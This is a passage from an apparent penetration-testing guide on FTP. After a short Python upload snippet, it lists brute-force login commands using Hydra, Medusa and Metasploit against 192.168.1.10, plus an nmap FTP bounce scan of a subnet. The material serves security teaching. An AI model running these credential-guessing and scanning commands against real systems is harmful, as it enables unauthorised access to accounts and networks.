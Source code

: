 ```python
# Upload a file
with open('local_file.txt', 'rb') as f:
    ftp.storbinary('STOR remote_file.txt', f)

# Close connection
ftp.quit()
```

## Attack Vectors

### Brute Force Attacks

FTP is susceptible to brute force attacks due to its simple authentication mechanism.

#### Using Hydra

```bash
# Basic brute force
hydra -L users.txt -P passwords.txt ftp://192.168.1.10

# With specific username
hydra -l admin -P passwords.txt ftp://192.168.1.10

# Increased verbosity
hydra -V -l admin -P passwords.txt ftp://192.168.1.10
```

#### Using Medusa

```bash
medusa -h 192.168.1.10 -u admin -P passwords.txt -M ftp
```

#### Using Metasploit

```
use auxiliary/scanner/ftp/ftp_login
set RHOSTS 192.168.1.10
set USER_FILE users.txt
set PASS_FILE passwords.txt
set STOP_ON_SUCCESS true
run
```

### FTP Bounce Attack

The FTP bounce attack exploits the PORT command to scan or access systems behind a firewall.

#### Using Nmap

```bash
# Perform FTP bounce scan
nmap -b username:password@192.168.1.10 192.168.1.0/24
```
